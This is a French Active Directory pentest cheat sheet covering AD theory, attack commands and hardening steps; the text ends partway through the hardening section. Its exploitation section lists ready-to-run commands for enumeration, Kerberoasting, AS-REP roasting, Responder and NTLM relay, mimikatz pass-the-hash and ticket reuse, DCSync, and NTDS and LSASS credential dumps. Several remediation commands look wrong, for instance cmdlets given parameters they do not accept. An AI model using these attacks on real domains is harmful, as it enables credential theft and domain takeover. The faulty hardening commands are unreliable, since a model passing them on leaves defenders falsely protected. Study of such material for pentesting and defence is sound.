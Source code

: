 # 🕵️‍♂️ THÉORIE, EXPLOITATION & REMÉDIATION

### **📌 1. THÉORIE : COMPRENDRE AD**

#### **🔹 Structure d’Active Directory**

🔑 **Composants clés** :

* **Domain Controller (DC)** : Serveur qui gère l'authentification et les GPOs
* **Group Policy Objects (GPOs)** : Règles appliquées aux machines/utilisateurs
* **Security Identifier (SID)** : Identifiant unique des utilisateurs/groupes
* **Access Control List (ACL)** : Définit qui peut accéder/modifier des objets

🔑 **Comptes & groupes sensibles** :

* **Administrateur du domaine (DA)** → Full contrôle
* **Enterprise Admins** → Admins multi-domaines
* **Domain Users** → Tous les utilisateurs du domaine
* **KRBTGT** → Clé maîtresse de Kerberos

#### **🔹 Authentification & Kerberos**

📌 **NTLM vs Kerberos**

| Méthode      | Fonctionnement     | Failles                        |
| ------------ | ------------------ | ------------------------------ |
| **NTLM**     | Challenge-Response | Relay attack, Pass-the-Hash    |
| **Kerberos** | Tickets (TGT, TGS) | Kerberoasting, Pass-the-Ticket |

📌 **Processus d'authentification Kerberos**

1. Client demande un Ticket Granting Ticket (**AS-REQ**)
2. DC envoie le TGT chiffré (**AS-REP**)
3. Client demande un accès à une ressource avec son TGT (**TGS-REQ**)
4. DC valide et délivre un Service Ticket (**TGS-REP**)

***

### **🔥 2. EXPLOITATION : ATTAQUES COURANTES SUR AD**

#### **🔹 Enumération (Recon AD)**

📌 **Sans compte :**

* 🔍 `nmap -p 88,389,445 <IP>` → Vérifier services ouverts
* 🔍 `crackmapexec smb <IP> --shares` → Partages accessibles
* 🔍 `ldapsearch -x -h <IP> -b "DC=domain,DC=com"` → Enumération LDAP

📌 **Avec compte :**

* 🔍 `bloodhound-python -u user -p pass -d domain -c All`
* 🔍 `net user /domain` → Liste des utilisateurs
* 🔍 `net group "Domain Admins" /domain` → Vérifier les admins

***

#### **🔹 Attaques Kerberos**

🔑 **Kerberoasting** (Récupérer des mots de passe chiffrés dans Kerberos)

```powershell
GetUserSPNs.py -dc-ip <DC-IP> domain/user:password -request
```

🔥 **Cracking du hash**

```bash
hashcat -m 13100 hash.txt rockyou.txt
```

🔑 **ASREPRoasting** (Récupérer les TGT d’utilisateurs sans pre-auth)

```powershell
GetNPUsers.py domain/user -dc-ip <DC-IP> -no-pass
```

🔑 **Pass-the-Ticket (PTT)** (Réutilisation de tickets Kerberos)

```powershell
mimikatz "kerberos::ptc ticket.kirbi"
```

***

#### **🔹 NTLM Relay & LLMNR Poisoning**

🔑 **Capturer les requêtes LLMNR/NBT-NS & NTLMv2**

```bash
responder -I eth0
```

🔑 **NTLM Relay Attack (SMB)**

```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

🔑 **Pass-the-Hash (PTH)**

```bash
mimikatz "sekurlsa::pth /user:Admin /domain:corp.local /ntlm:<hash>"
```

***

#### **🔹 Exploitation ACLs & Privilege Escalation**

🔑 **Enumérer les permissions dangereuses (BloodHound)**

* **GenericAll** : Full contrôle sur un objet
* **GenericWrite** : Peut modifier un utilisateur (ex: changer son mot de passe)
* **WriteDACL** : Peut modifier les permissions d’un objet

🔑 **Exploiter un contrôle sur un utilisateur (GenericWrite/GenericAll)**

```powershell
Add-DomainObjectAcl -TargetIdentity "Admin" -PrincipalIdentity "User"
```

🔑 **DCSync Attack (Dump des hashes sans être DA)**

```powershell
mimikatz "lsadump::dcsync /user:Administrator"
```

***

#### **🔹 Dumping Credentials (Hash & MDP)**

🔑 **Dump NTDS.DIT (Base AD)**

```powershell
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

🔑 **Dump des credentials avec Mimikatz**

```powershell
mimikatz "privilege::debug" "sekurlsa::logonpasswords"
```

***

### **🛡️ 3. REMÉDIATION & PROTECTIONS AD**

#### **🔹 Protection contre Kerberoasting & ASREPRoasting**

✅ **Désactiver la récupération de ticket sans pre-auth**

```powershell
Set-ADUser -Identity user -DoesNotRequirePreAuth $false
```

✅ **Désactiver l’accès à l’authentification Kerberos des comptes non nécessaires**

```powershell
Set-ADAccountControl -KerberosEncryptionType None -Identity User
```

✅ **Activer AES pour les tickets Kerberos**

```powershell
Set-ADUser -Identity user -KerberosEncryptionType AES256
```

***

#### **🔹 Protection contre NTLM Relay & LLMNR Poisoning**

✅ **Désactiver LLMNR/NBT-NS**

```powershell
Set-DnsClientGlobalSetting -EnableMulticast 0
```

✅ **Désactiver NTLM si possible**

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "RestrictNTLM" -Value 2
```

✅ **Signer les sessions SMB pour empêcher NTLM Relay**

```powershell
Set-SmbServerConfiguration -EnableSecuritySignature $true
```

***

#### **🔹 Sécurisation des ACLs et Privilege Escalation**

✅ **Auditer les permissions avec BloodHound**\
✅ **Éviter GenericAll, GenericWrite sur des comptes sensibles**\
✅ **Activer la surveillance des modifications d’ACL**

```powershell
Auditpol /set /subcategory:"Directory Service Changes" /success:enable /failure:enable
```

***

#### **🔹 Protection contre le Dumping des Credentials**

✅ **Restreindre l’accès à LSASS**

```powershell
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "RunAsPPL" -Value 1 -PropertyType DWord
```

✅ **Activer Credential Guard sur les postes**

